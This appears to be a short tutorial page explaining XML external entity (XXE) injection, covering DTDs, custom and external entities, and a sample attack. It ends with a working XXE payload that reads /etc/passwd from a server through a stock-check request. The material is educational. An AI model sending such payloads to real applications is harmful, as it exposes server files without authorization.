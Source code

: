 XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. 
It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.


> XML external entities are a type of custom XML entity whose defined values are loaded from outside of the DTD in which they are declared.
> 
> External entities are particularly interesting from a security perspective because they allow an entity to be defined based on the contents of a file path or URL.

##  document type definition
> DTD Contains the declaration of what should contain in the XML Document structure kike the data values it contains and other value.
> The DTD is always accomplained with a DOCTYPE Element at the start of the XML document.
> If the DTD is self-contained to the documet itself then its called as **internal DTD**
> (Or) If its loaded from external then its called as **External DTD**


## XML custom entities
````
<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>"
````
> This definition means that any usage of the entity reference &myentity; within the XML document will be replaced with the defined value: "my entity value"
## XML external entities
> The declaration of an external entity uses the SYSTEM keyword and must specify a URL from which the value of the entity should be loaded. For example:.
````
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
````
#### Exploiting XXE to retrieve files
To perform an XXE injection attack
1. Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file.
2. Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.
````
General request:
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>

Performing XXE attack to retrive "/etc/passwd" file from the system by the following command:-
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
````
